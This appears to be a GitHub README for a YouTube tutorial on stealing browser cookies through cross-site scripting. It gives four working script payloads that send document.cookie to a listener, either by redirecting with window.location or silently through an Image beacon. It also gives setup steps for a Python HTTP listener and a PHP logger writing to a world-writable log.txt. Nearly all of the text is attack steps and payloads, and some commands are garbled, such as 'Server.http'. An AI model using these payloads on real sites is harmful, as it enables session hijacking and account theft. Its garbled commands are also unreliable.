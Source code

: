 # Stealling Cookies

All Payload that used from this Youtube Video

https://youtu.be/Kh1sgI5yLdk


# Takeing The Cookie From Python3 Server Listener

1 - Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2 - write Payload with window.location() function:

<script> window.location='http://127.0.0.1/:3333?cookie='+document.cookie </script> 

# Send Cookies without go to another window

1 - Start Python3 Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2 - Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie

1 - Go to html File:

[~] YasserREED> cd  /var/www/html

2 - Make File get.php:

YasserREED> sudo gedit get.php

// Code with the File Just Copy it 

3 - Make log.txt file:

YasserRED> sudo touch log.txt

4 - Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location()

1 - Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2 - Paste into input filed.

3 - Check log.txt. //if not showen you can refresh the page 🔄

# Take the cookie Silence by get.php and send it to log.txt

1 - Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>


2 - Paste into input filed.

3 - Check log.txt //if not showen you can refresh the page 🔄

